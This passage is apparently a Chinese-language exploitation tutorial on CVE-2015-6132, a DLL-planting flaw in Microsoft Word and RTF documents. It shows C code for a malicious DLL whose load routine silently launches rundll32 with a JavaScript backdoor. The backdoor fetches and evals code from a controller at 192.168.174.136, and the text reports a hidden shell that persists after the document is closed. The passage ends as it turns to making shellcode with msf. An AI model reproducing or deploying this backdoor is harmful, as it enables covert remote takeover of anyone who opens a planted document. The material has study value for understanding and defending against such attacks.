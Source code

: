 CVE-2015-6132 ，是一个类似于dll劫持的漏洞，如果在特定word文档的同级目录下放置一个dll，那么在打开word文档并点击图标后会运行同级目录下dll的代码

如图![Alt text](http://drops.javaweb.org/uploads/images/b280f4c380f98254ecf1099adf1f50c7f03b0899.jpg)

planted-mqrt.doc里面包含图标foo.txt,如果点击图标，那么会运行mqrt.dll中的代码，即弹框

当然，把word 文档改为rtf文档即可实现在打开文档后的自动触发

如果把mqrt.dll的payload改为JavaScript Backdoor，那么会怎么样呢？

下面我们就修改一下

方法也很简单，但也需要注意cmd的参数和转义字符的修改，关键代码如下：

```
BOOL APIENTRY DllMain( HANDLE hModule, 
                      DWORD  ul_reason_for_call, 
                      LPVOID lpReserved
                      )
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            char *command="cmd.exe /c start rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new\%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");h.Open(\"GET\",\"http://192.168.174.136/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new\%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";           
            WinExec(command,SW_HIDE); 
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/4657cd0c1430eb01eca1b4a3149ca39cc075b9be.jpg)

打开CVE-2015-6132.rtf，没有任何异常反应

而这时我们的控制端已经弹回了shell，如图

![Alt text](http://drops.javaweb.org/uploads/images/5b55643bd1a28bf735eacdad23bb8682a2bb95d4.jpg)

即使此时关闭CVE-2015-6132.rtf，shell仍然可以继续操作

0x05 转换成shellcode
=====

**开发工具：**`msf、vc6.0`
